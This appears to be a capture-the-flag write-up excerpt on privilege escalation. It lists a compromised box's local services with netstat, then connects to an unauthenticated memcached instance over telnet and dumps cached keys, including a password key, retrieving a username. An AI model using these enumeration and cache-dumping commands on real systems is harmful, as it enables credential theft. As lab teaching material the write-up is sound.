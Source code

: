 # Initial foothold
We fix our shell and begin to look for privilege escalation routes, there is nothing of note until we find the following
```
netstat -lptu
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 localhost:3010          *:*                     LISTEN      -
tcp        0      0 localhost:mysql         *:*                     LISTEN      -
tcp        0      0 localhost:11211         *:*                     LISTEN      -
tcp        0      0 *:ssh                   *:*                     LISTEN      -
tcp        0      0 localhost:ipp           *:*                     LISTEN      -
tcp6       0      0 [::]:http               [::]:*                  LISTEN      -
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN      -
tcp6       0      0 ip6-localhost:ipp       [::]:*                  LISTEN      -
udp        0      0 *:mdns                  *:*                                 -
udp        0      0 *:44521                 *:*                                 -
udp        0      0 *:35316                 *:*                                 -
udp        0      0 *:bootpc                *:*                                 -
udp        0      0 *:ipp                   *:*                                 -
udp6       0      0 [::]:mdns               [::]:*                              -
udp6       0      0 [::]:39028              [::]:*                              -

```

We have some ports open locally, looking up port 11211 we find that it is used for the memcached protocol we can connect to it via telnet and see if we can find any cached data to exfiltrate

```
telnet localhost 11211
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
stats items
stats items
STAT items:1:number 5
STAT items:1:age 600
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 0
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:crawler_reclaimed 0
STAT items:1:crawler_items_checked 0
STAT items:1:lrutail_reflocked 0
END
stats cachedump 1 0
stats cachedump 1 0
ITEM id [4 b; 1615325783 s]
ITEM email [14 b; 1615325783 s]
ITEM salary [8 b; 1615325783 s]
ITEM password [15 b; 1615325783 s]
ITEM username [4 b; 1615325783 s]
END
get username
get username
VALUE username 0 4
Orka
```